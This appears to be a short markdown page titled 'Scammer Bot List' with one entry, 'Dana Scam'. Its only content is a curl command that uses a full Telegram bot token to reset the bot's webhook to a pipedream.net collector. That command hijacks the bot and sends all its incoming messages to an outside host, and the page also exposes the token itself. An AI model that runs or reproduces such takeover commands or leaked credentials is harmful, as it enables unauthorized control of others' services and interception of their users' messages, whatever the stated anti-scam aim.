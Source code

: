 # Scammer Bot List

Dana Scam

```sh
$ curl -X POST "https://api.telegram.org/bot7455225662:AAG6duO16TWnXN1Hz4nz2p3InukIoT9TyZE/setWebhook" -d "url=https://eov6tgpfbhsve67.m.pipedream.net"
```
